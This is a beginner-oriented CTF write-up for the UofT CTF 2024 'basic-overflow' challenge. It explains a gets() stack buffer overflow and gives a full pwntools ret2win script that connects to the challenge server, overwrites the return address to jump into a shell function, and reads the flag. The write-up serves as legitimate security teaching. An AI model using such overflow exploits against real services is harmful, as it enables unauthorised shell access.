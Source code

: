 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 316
tags: UofT-CTF-2024 pwn pwn/ret2win pwn/buffer-overflow
date: 2024-1-15
comments: false
---
```


This challenge is simple.  

It just gets input, stores it to a buffer.  

It calls gets to read input, stores the read bytes to a buffer, then exits.  

What is gets, you ask? Well, it's time you read the manual, no?  

`man 3 gets`  

Cryptic message from author: There are times when you tell them something, but they don't reply. In those cases, you must try again. Don't just shoot one shot; sometimes, they're just not ready yet.  

Author: drec  
`nc 34.123.15.202 5000`  
[basic-overflow](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/basic-overflow)  

---

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

All this does is pop a shell.  

So, this is a standard ret2win challenge where we must override the return address with the address of the win function to get a shell. We can easily do this with pwntools:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./basic-overflow")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./basic-overflow')
# gdb.attach(p)

p = remote('34.123.15.202', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{reading_manuals_is_very_fun}